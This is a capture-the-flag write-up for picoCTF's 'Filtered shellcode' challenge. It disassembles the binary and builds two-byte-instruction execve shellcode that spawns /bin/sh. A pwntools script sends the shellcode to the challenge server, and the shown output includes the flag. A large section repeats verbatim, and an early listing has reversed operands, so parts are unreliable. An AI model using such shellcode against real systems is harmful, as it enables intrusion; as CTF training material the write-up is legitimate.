

# Filtered shellcode
Disclaimer: I couldn't do this on my own T_T . Also this question induced some sort of delirium in me, please dont judge.
If we disassemble the main in this excutable, we get this.
```
0x080485d3 <+0>:     lea    ecx,[esp+0x4]
   0x080485d7 <+4>:     and    esp,0xfffffff0
   0x080485da <+7>:     push   DWORD PTR [ecx-0x4]
   0x080485dd <+10>:    push   ebp
   0x080485de <+11>:    mov    ebp,esp
   0x080485e0 <+13>:    push   ebx
   0x080485e1 <+14>:    push   ecx
   0x080485e2 <+15>:    sub    esp,0x3f0
   0x080485e8 <+21>:    call   0x8048430 <__x86.get_pc_thunk.bx>
   0x080485ed <+26>:    add    ebx,0x1a13
   0x080485f3 <+32>:    mov    eax,DWORD PTR [ebx-0x4]
   0x080485f9 <+38>:    mov    eax,DWORD PTR [eax]
   0x080485fb <+40>:    sub    esp,0x8
   0x080485fe <+43>:    push   0x0
   0x08048600 <+45>:    push   eax
   0x08048601 <+46>:    call   0x8048380 <setbuf@plt>
   0x08048606 <+51>:    add    esp,0x10
   0x08048609 <+54>:    mov    DWORD PTR [ebp-0xc],0x0
   0x08048610 <+61>:    mov    BYTE PTR [ebp-0xd],0x0
   0x08048614 <+65>:    sub    esp,0xc
   0x08048617 <+68>:    lea    eax,[ebx-0x18c0]
   0x0804861d <+74>:    push   eax
   0x0804861e <+75>:    call   0x8048390 <puts@plt>
   0x08048623 <+80>:    add    esp,0x10
   0x08048626 <+83>:    mov    eax,DWORD PTR [ebx-0x8]
   0x0804862c <+89>:    mov    eax,DWORD PTR [eax]
   0x0804862e <+91>:    sub    esp,0xc
   0x08048631 <+94>:    push   eax
   0x08048632 <+95>:    call   0x80483c0 <fgetc@plt>
   0x08048637 <+100>:   add    esp,0x10
   0x0804863a <+103>:   mov    BYTE PTR [ebp-0xd],al
   0x0804863d <+106>:   jmp    0x804866b <main+152>
   0x0804863f <+108>:   lea    edx,[ebp-0x3f5]
   0x08048645 <+114>:   mov    eax,DWORD PTR [ebp-0xc]
   0x08048648 <+117>:   add    edx,eax
   0x0804864a <+119>:   movzx  eax,BYTE PTR [ebp-0xd]
   0x0804864e <+123>:   mov    BYTE PTR [edx],al
   0x08048650 <+125>:   mov    eax,DWORD PTR [ebx-0x8]
   0x08048656 <+131>:   mov    eax,DWORD PTR [eax]
   0x08048658 <+133>:   sub    esp,0xc
   0x0804865b <+136>:   push   eax
   0x0804865c <+137>:   call   0x80483c0 <fgetc@plt>
   0x08048661 <+142>:   add    esp,0x10
   0x08048664 <+145>:   mov    BYTE PTR [ebp-0xd],al
   0x08048667 <+148>:   add    DWORD PTR [ebp-0xc],0x1
   0x0804866b <+152>:   cmp    BYTE PTR [ebp-0xd],0xa
   0x0804866f <+156>:   je     0x804867a <main+167>
   0x08048671 <+158>:   cmp    DWORD PTR [ebp-0xc],0x3e7
   0x08048678 <+165>:   jbe    0x804863f <main+108>
   0x0804867a <+167>:   mov    eax,DWORD PTR [ebp-0xc]
   0x0804867d <+170>:   and    eax,0x1
   0x08048680 <+173>:   test   eax,eax
   0x08048682 <+175>:   je     0x8048696 <main+195>
   0x08048684 <+177>:   lea    edx,[ebp-0x3f5]
   0x0804868a <+183>:   mov    eax,DWORD PTR [ebp-0xc]
   0x0804868d <+186>:   add    eax,edx
   0x0804868f <+188>:   mov    BYTE PTR [eax],0x90
   0x08048692 <+191>:   add    DWORD PTR [ebp-0xc],0x1
   0x08048696 <+195>:   sub    esp,0x8
   0x08048699 <+198>:   push   DWORD PTR [ebp-0xc]
   0x0804869c <+201>:   lea    eax,[ebp-0x3f5]
   0x080486a2 <+207>:   push   eax
   0x080486a3 <+208>:   call   0x80484f6 <execute>
   0x080486a8 <+213>:   add    esp,0x10
   0x080486ab <+216>:   mov    eax,0x0
   0x080486b0 <+221>:   lea    esp,[ebp-0x8]
   0x080486b3 <+224>:   pop    ecx
   0x080486b4 <+225>:   pop    ebx
   0x080486b5 <+226>:   pop    ebp
   0x080486b6 <+227>:   lea    esp,[ecx-0x4]
   0x080486b9 <+230>:   ret    
```
There is one step which calls execute without the plt part so if we disassemble that too,
```
 0x080484f6 <+0>:     push   ebp
   0x080484f7 <+1>:     mov    ebp,esp
   0x080484f9 <+3>:     push   ebx
   0x080484fa <+4>:     sub    esp,0x24
   0x080484fd <+7>:     call   0x80486ba <__x86.get_pc_thunk.ax>
   0x08048502 <+12>:    add    eax,0x1afe
   0x08048507 <+17>:    mov    edx,esp
   0x08048509 <+19>:    mov    ebx,edx
   0x0804850b <+21>:    cmp    DWORD PTR [ebp+0x8],0x0
   0x0804850f <+25>:    je     0x8048517 <execute+33>
   0x08048511 <+27>:    cmp    DWORD PTR [ebp+0xc],0x0
   0x08048515 <+31>:    jne    0x8048523 <execute+45>
   0x08048517 <+33>:    sub    esp,0xc
   0x0804851a <+36>:    push   0x1
   0x0804851c <+38>:    mov    ebx,eax
   0x0804851e <+40>:    call   0x80483a0 <exit@plt>
   0x08048523 <+45>:    mov    eax,DWORD PTR [ebp+0xc]
   0x08048526 <+48>:    add    eax,eax
   0x08048528 <+50>:    mov    DWORD PTR [ebp-0x14],eax
   0x0804852b <+53>:    mov    eax,DWORD PTR [ebp-0x14]
   0x0804852e <+56>:    add    eax,0x1
   0x08048531 <+59>:    mov    edx,eax
   0x08048533 <+61>:    sub    edx,0x1
   0x08048536 <+64>:    mov    DWORD PTR [ebp-0x18],edx
   0x08048539 <+67>:    mov    edx,0x10
   0x0804853e <+72>:    sub    edx,0x1
   0x08048541 <+75>:    add    eax,edx
   0x08048543 <+77>:    mov    ecx,0x10
   0x08048548 <+82>:    mov    edx,0x0
   0x0804854d <+87>:    div    ecx
   0x0804854f <+89>:    imul   eax,eax,0x10
   0x08048552 <+92>:    sub    esp,eax
   0x08048554 <+94>:    mov    eax,esp
   0x08048556 <+96>:    add    eax,0x0
   0x08048559 <+99>:    mov    DWORD PTR [ebp-0x1c],eax
   0x0804855c <+102>:   mov    DWORD PTR [ebp-0x10],0x0
   0x08048563 <+109>:   mov    DWORD PTR [ebp-0xc],0x0
   0x0804856a <+116>:   jmp    0x80485ad <execute+183>
   0x0804856c <+118>:   mov    eax,DWORD PTR [ebp-0xc]
   0x0804856f <+121>:   cdq    
   0x08048570 <+122>:   shr    edx,0x1e
   0x08048573 <+125>:   add    eax,edx
   0x08048575 <+127>:   and    eax,0x3
   0x08048578 <+130>:   sub    eax,edx
   0x0804857a <+132>:   cmp    eax,0x1
   0x0804857d <+135>:   jg     0x804859e <execute+168>
   0x0804857f <+137>:   mov    eax,DWORD PTR [ebp-0x10]
   0x08048582 <+140>:   lea    edx,[eax+0x1]
   0x08048585 <+143>:   mov    DWORD PTR [ebp-0x10],edx
   0x08048588 <+146>:   mov    edx,eax
   0x0804858a <+148>:   mov    eax,DWORD PTR [ebp+0x8]
   0x0804858d <+151>:   add    eax,edx
   0x0804858f <+153>:   movzx  eax,BYTE PTR [eax]
   0x08048592 <+156>:   mov    ecx,DWORD PTR [ebp-0x1c]
   0x08048595 <+159>:   mov    edx,DWORD PTR [ebp-0xc]
   0x08048598 <+162>:   add    edx,ecx
   0x0804859a <+164>:   mov    BYTE PTR [edx],al
   0x0804859c <+166>:   jmp    0x80485a9 <execute+179>
   0x0804859e <+168>:   mov    edx,DWORD PTR [ebp-0x1c]
   0x080485a1 <+171>:   mov    eax,DWORD PTR [ebp-0xc]
   0x080485a4 <+174>:   add    eax,edx
   0x080485a6 <+176>:   mov    BYTE PTR [eax],0x90
   0x080485a9 <+179>:   add    DWORD PTR [ebp-0xc],0x1
   0x080485ad <+183>:   mov    eax,DWORD PTR [ebp-0xc]
   0x080485b0 <+186>:   cmp    DWORD PTR [ebp-0x14],eax
   0x080485b3 <+189>:   ja     0x804856c <execute+118>
   0x080485b5 <+191>:   mov    edx,DWORD PTR [ebp-0x1c]
   0x080485b8 <+194>:   mov    eax,DWORD PTR [ebp-0x14]
   0x080485bb <+197>:   add    eax,edx
   0x080485bd <+199>:   mov    BYTE PTR [eax],0xc3
   0x080485c0 <+202>:   mov    eax,DWORD PTR [ebp-0x1c]
   0x080485c3 <+205>:   mov    DWORD PTR [ebp-0x20],eax
   0x080485c6 <+208>:   mov    eax,DWORD PTR [ebp-0x20]
   0x080485c9 <+211>:   call   eax
   0x080485cb <+213>:   mov    esp,ebx
   0x080485cd <+215>:   nop
   0x080485ce <+216>:   mov    ebx,DWORD PTR [ebp-0x4]
   0x080485d1 <+219>:   leave  
   0x080485d2 <+220>:   ret  
```
Putting the breakpoints b *0x080485c9, b *0x080486a3, for the start of execute function call to eax call, we can run it and give some random input. We can see what we have input.


If we continue using c, and display it again, we notice somethign interesting. The are two added bytes between every two bytes.



Apparently then we need to spawn a shell now? (confusion hi confusion hai solution kuch pata nahi)
We need to spawn a shell usnig two by te commands as if we go over that, it will add those bytes and our command won't make any sense.
We can use shell storm which has codes to use syscalls to send commands. (??)
Found this which has mostly byte commands. (Thank you, kind soul who made this)
```
8048060: 31 c0                 xor    eax,eax
8048062: 50                    push   eax
8048063: 68 2f 2f 73 68        push   0x68732f2f
8048068: 68 2f 62 69 6e        push   0x6e69622f
804806d: 89 e3                 mov    esp,ebx
804806f: 89 c1                 mov    eax,ecx
8048071: 89 c2                 mov    eax,edx
8048073: b0 0b                 mov    0xb,al
8048075: cd 80                 int    0x80
8048077: 31 c0                 xor    eax,eax
8048079: 40                    inc    eax
804807a: cd 80                 int    0x80
```
For the commands that are one byte, we add null pointers again
```
31 c0                 xor    eax,eax
50                    push   eax
90                    nop
68 2f 2f 73 68        push   0x68732f2f
68 2f 62 69 6e        push   0x6e69622f
89 e3                 mov    esp,ebx
89 c1                 mov    eax,ecx
89 c2                 mov    eax,edx
b0 0b                 mov    0xb,al
cd 80                 int    0x80
31 c0                 xor    eax,eax
40                    inc    eax
90                    nop   
cd 80                 int    0x80
```
Now we do some jiggery pokery for the pushes we need to and push two bytes at a time. (???)
```
0:  31 c0                   xor    eax,eax
2:  31 c9                   xor    ecx,ecx
4:  50                      push   eax
5:  90                      nop
6:  31 c0                   xor    eax,eax
8:  b1 68                   mov    cl,0x68
a:  01 c8                   add    eax,ecx
c:  d1 e0                   shl    eax,1
e:  d1 e0                   shl    eax,1
10: d1 e0                   shl    eax,1
12: d1 e0                   shl    eax,1
14: d1 e0                   shl    eax,1
16: d1 e0                   shl    eax,1
18: d1 e0                   shl    eax,1
1a: d1 e0                   shl    eax,1
1c: b1 73                   mov    cl,0x73
1e: 01 c8                   add    eax,ecx
20: d1 e0                   shl    eax,1
22: d1 e0                   shl    eax,1
24: d1 e0                   shl    eax,1
26: d1 e0                   shl    eax,1
28: d1 e0                   shl    eax,1
2a: d1 e0                   shl    eax,1
2c: d1 e0                   shl    eax,1
2e: d1 e0                   shl    eax,1
30: b1 2f                   mov    cl,0x2f
32: 01 c8                   add    eax,ecx
34: d1 e0                   shl    eax,1
36: d1 e0                   shl    eax,1
38: d1 e0                   shl    eax,1
3a: d1 e0                   shl    eax,1
3c: d1 e0                   shl    eax,1
3e: d1 e0                   shl    eax,1
40: d1 e0                   shl    eax,1
42: d1 e0                   shl    eax,1
44: b1 2f                   mov    cl,0x2f
46: 01 c8                   add    eax,ecx
48: 50                      push   eax
49: 90                      nop
4a: 31 c0                   xor    eax,eax
4c: b1 6e                   mov    cl,0x6e
4e: 01 c8                   add    eax,ecx
50: d1 e0                   shl    eax,1
52: d1 e0                   shl    eax,1
54: d1 e0                   shl    eax,1
56: d1 e0                   shl    eax,1
58: d1 e0                   shl    eax,1
5a: d1 e0                   shl    eax,1
5c: d1 e0                   shl    eax,1
5e: d1 e0                   shl    eax,1
60: b1 69                   mov    cl,0x69
62: 01 c8                   add    eax,ecx
64: d1 e0                   shl    eax,1
66: d1 e0                   shl    eax,1
68: d1 e0                   shl    eax,1
6a: d1 e0                   shl    eax,1
6c: d1 e0                   shl    eax,1
6e: d1 e0                   shl    eax,1
70: d1 e0                   shl    eax,1
72: d1 e0                   shl    eax,1
74: b1 62                   mov    cl,0x62
76: 01 c8                   add    eax,ecx
78: d1 e0                   shl    eax,1
7a: d1 e0                   shl    eax,1
7c: d1 e0                   shl    eax,1
7e: d1 e0                   shl    eax,1
80: d1 e0                   shl    eax,1
82: d1 e0                   shl    eax,1
84: d1 e0                   shl    eax,1
86: d1 e0                   shl    eax,1
88: b1 2f                   mov    cl,0x2f
8a: 01 c8                   add    eax,ecx
8c: 50                      push   eax
8d: 90                      nop
8e: 31 c0                   xor    eax,eax
90: 89 e3                   mov    ebx,esp
92: 89 c1                   mov    ecx,eax
94: 89 c2                   mov    edx,eax
96: b0 0b                   mov    al,0xb
98: cd 80                   int    0x80
9a: 31 c0                   xor    eax,eax
9c: 40                      inc    eax
9d: 90                      nop
9e: cd 80                   int    0x80
```
Running it in a dissambler, (with god knows how many of hours formatting because their mental problems)
```
31 c0                 xor    eax,eax
50                    push   eax
90                    nop
68 2f 2f 73 68        push   0x68732f2f
68 2f 62 69 6e        push   0x6e69622f
89 e3                 mov    esp,ebx
89 c1                 mov    eax,ecx
89 c2                 mov    eax,edx
b0 0b                 mov    0xb,al
cd 80                 int    0x80
31 c0                 xor    eax,eax
40                    inc    eax
90                    nop   
cd 80                 int    0x80
```
Now we do some jiggery pokery for the pushes we need to and push two bytes at a time. (???)
```
0:  31 c0                   xor    eax,eax
2:  31 c9                   xor    ecx,ecx
4:  50                      push   eax
5:  90                      nop
6:  31 c0                   xor    eax,eax
8:  b1 68                   mov    cl,0x68
a:  01 c8                   add    eax,ecx
c:  d1 e0                   shl    eax,1
e:  d1 e0                   shl    eax,1
10: d1 e0                   shl    eax,1
12: d1 e0                   shl    eax,1
14: d1 e0                   shl    eax,1
16: d1 e0                   shl    eax,1
18: d1 e0                   shl    eax,1
1a: d1 e0                   shl    eax,1
1c: b1 73                   mov    cl,0x73
1e: 01 c8                   add    eax,ecx
20: d1 e0                   shl    eax,1
22: d1 e0                   shl    eax,1
24: d1 e0                   shl    eax,1
26: d1 e0                   shl    eax,1
28: d1 e0                   shl    eax,1
2a: d1 e0                   shl    eax,1
2c: d1 e0                   shl    eax,1
2e: d1 e0                   shl    eax,1
30: b1 2f                   mov    cl,0x2f
32: 01 c8                   add    eax,ecx
34: d1 e0                   shl    eax,1
36: d1 e0                   shl    eax,1
38: d1 e0                   shl    eax,1
3a: d1 e0                   shl    eax,1
3c: d1 e0                   shl    eax,1
3e: d1 e0                   shl    eax,1
40: d1 e0                   shl    eax,1
42: d1 e0                   shl    eax,1
44: b1 2f                   mov    cl,0x2f
46: 01 c8                   add    eax,ecx
48: 50                      push   eax
49: 90                      nop
4a: 31 c0                   xor    eax,eax
4c: b1 6e                   mov    cl,0x6e
4e: 01 c8                   add    eax,ecx
50: d1 e0                   shl    eax,1
52: d1 e0                   shl    eax,1
54: d1 e0                   shl    eax,1
56: d1 e0                   shl    eax,1
58: d1 e0                   shl    eax,1
5a: d1 e0                   shl    eax,1
5c: d1 e0                   shl    eax,1
5e: d1 e0                   shl    eax,1
60: b1 69                   mov    cl,0x69
62: 01 c8                   add    eax,ecx
64: d1 e0                   shl    eax,1
66: d1 e0                   shl    eax,1
68: d1 e0                   shl    eax,1
6a: d1 e0                   shl    eax,1
6c: d1 e0                   shl    eax,1
6e: d1 e0                   shl    eax,1
70: d1 e0                   shl    eax,1
72: d1 e0                   shl    eax,1
74: b1 62                   mov    cl,0x62
76: 01 c8                   add    eax,ecx
78: d1 e0                   shl    eax,1
7a: d1 e0                   shl    eax,1
7c: d1 e0                   shl    eax,1
7e: d1 e0                   shl    eax,1
80: d1 e0                   shl    eax,1
82: d1 e0                   shl    eax,1
84: d1 e0                   shl    eax,1
86: d1 e0                   shl    eax,1
88: b1 2f                   mov    cl,0x2f
8a: 01 c8                   add    eax,ecx
8c: 50                      push   eax
8d: 90                      nop
8e: 31 c0                   xor    eax,eax
90: 89 e3                   mov    ebx,esp
92: 89 c1                   mov    ecx,eax
94: 89 c2                   mov    edx,eax
96: b0 0b                   mov    al,0xb
98: cd 80                   int    0x80
9a: 31 c0                   xor    eax,eax
9c: 40                      inc    eax
9d: 90                      nop
9e: cd 80                   int    0x80
```
Running that in an assembler
```
\x31\xC0\x31\xC9\x50\x90\x31\xC0\xB1\x68\x01\xC8\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xB1\x73\x01\xC8\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xB1\x2F\x01\xC8\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xB1\x2F\x01\xC8\x50\x90\x31\xC0\xB1\x6E\x01\xC8\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xB1\x69\x01\xC8\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xB1\x62\x01\xC8\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xB1\x2F\x01\xC8\x50\x90\x31\xC0\x89\xE3\x89\xC1\x89\xC2\xB0\x0B\xCD\x80\x31\xC0\x40\x90\xCD\x80
```
Making python scripts to run it,
```
from pwn import remote

r = remote("mercury.picoctf.net", 35338)

print(r.recvline())
payload = b'\x31\xC0\x31\xC9\x50\x90\x31\xC0\xB1\x68\x01\xC8\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xB1\x73\x01\xC8\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xB1\x2F\x01\xC8\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xB1\x2F\x01\xC8\x50\x90\x31\xC0\xB1\x6E\x01\xC8\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xB1\x69\x01\xC8\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xB1\x62\x01\xC8\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xB1\x2F\x01\xC8\x50\x90\x31\xC0\x89\xE3\x89\xC1\x89\xC2\xB0\x0B\xCD\x80\x31\xC0\x40\x90\xCD\x80'
r.sendline(payload)
r.interactive()
```
Then we cat the flag.txt and get the flag.
```
└─$ python3 dies.py
[+] Opening connection to mercury.picoctf.net on port 35338: Done
b'Give me code to run:\n'
[*] Switching to interactive mode
$ ls
flag.txt
fun
fun.c
xinet_startup.sh
$ cat flag.txt
picoCTF{th4t_w4s_fun_bf8b48641b742e27}
```